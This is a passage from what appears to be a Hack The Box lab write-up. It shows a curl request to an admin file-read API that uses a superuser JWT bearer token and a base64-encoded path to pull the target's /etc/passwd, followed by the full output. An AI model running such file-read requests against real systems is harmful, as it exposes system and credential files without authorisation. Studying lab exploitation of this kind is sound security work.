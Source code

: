 The Docs page also gives me the exact `curl` request used to make that
request:

[![](/img/image-20220427091236407.png)*Click
for full size
![image*](/img/image-20220427091236407.png)

I can copy that to a terminal and remove some unneeded bits:



    oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/L2V0Yy9wYXNzd2Q -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM'
    {"file":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin\nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:112::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:113::/nonexistent:/usr/sbin/nologin\npollinate:x:110:1::/var/cache/pollinate:/bin/false\nusbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nsshd:x:112:65534::/run/sshd:/usr/sbin/nologin\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nhtb:x:1000:1000:htb:/home/htb:/bin/bash\nlxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false\n"}



Pipping it to `jq -r '.file'` will select the file element and raw print
it:


